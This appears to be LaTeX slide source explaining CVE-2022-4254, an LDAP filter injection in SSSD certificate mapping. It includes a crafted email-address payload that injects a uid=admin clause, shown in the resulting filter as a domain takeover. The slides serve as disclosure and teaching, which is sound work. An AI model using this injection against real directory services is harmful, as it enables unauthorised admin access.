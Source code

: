 \documentclass[ignorenonframetext,aspectratio=169,12pt]{beamer}
\begin{document}
\begin{frame}{CVE-2022-4254 - what happened?}
\protect\hypertarget{vuln-desc}{}

\begin{itemize}
\item LDAP filter injection\footnote{CWE-90 - \url{https://cwe.mitre.org/data/definitions/90.html}}
\item FreeIPA {\bf not vulnerable in default configuration}
    \begin{itemize}
        \item only exact certificate match is enabled by default
    \end{itemize}
\item Bug introduced in SSSD v1.15.3 and resolved in v2.3.1
    \begin{itemize}
        \item Will also be fixed in of v1.16.6, if/when released
    \end{itemize}
\end{itemize}
\end{frame}

\begin{frame}[fragile]{CVE-2022-4254 - LDAP filter}
\protect\hypertarget{vuln-filter-wildcard}{}
\begin{lstlisting}[basicstyle=\ttfamily\footnotesize]
(&
  (|
    (objectClass=krbprincipalaux)
    (objectClass=krbprincipal)
    (objectClass=ipakrbprincipal)
  )
  (|
    (ipaKrbPrincipalAlias=(*\colorbox{yellow}{host/rhel78-0.ipa.test@IPA.TEST}*))
    (krbPrincipalName:caseIgnoreIA5Match:=host/rhel78-0.ipa.test@IPA.TEST)
  )
  ((*\colorbox{yellow}{fqdn=*.ipa.test}*))
)
\end{lstlisting}
\end{frame}

\begin{frame}[plain]
\centering
\Large What if your email address is \\
    ~\\
    \large
    \texttt{"bogus)(uid=admin)(cn="@ipa.test}
\end{frame}

\begin{frame}[plain]
\centering
\Large \ldots{}and your certmap rule looks like \\
    ~\\
    \large
    \texttt{(|(mail=\{subject\_rfc822\_name\})(entryDN=\{subject\_dn\})}
\end{frame}

\begin{frame}[fragile]{CVE-2022-4254 - domain takeover}
\protect\hypertarget{vuln-filter-mail}{}
\begin{lstlisting}[basicstyle=\ttfamily\footnotesize]
(&
  (|
    (objectClass=krbprincipalaux)
    (objectClass=krbprincipal)
    (objectClass=ipakrbprincipal)
  )
  (|
    (ipaKrbPrincipalAlias=(*\colorbox{yellow}{admin@IPA.TEST}*))
    (krbPrincipalName:caseIgnoreIA5Match:=admin@IPA.TEST)
  )
  (*\colorbox{yellow}{(|}*)
    (mail="bogus)
    ((*\colorbox{yellow}{uid=admin}*))
    (cn="@ipa.test)
    (entrydn=CN=alice,O=IPA.TEST 202211171708)
  )
\end{lstlisting}
\end{frame}
\end{document}
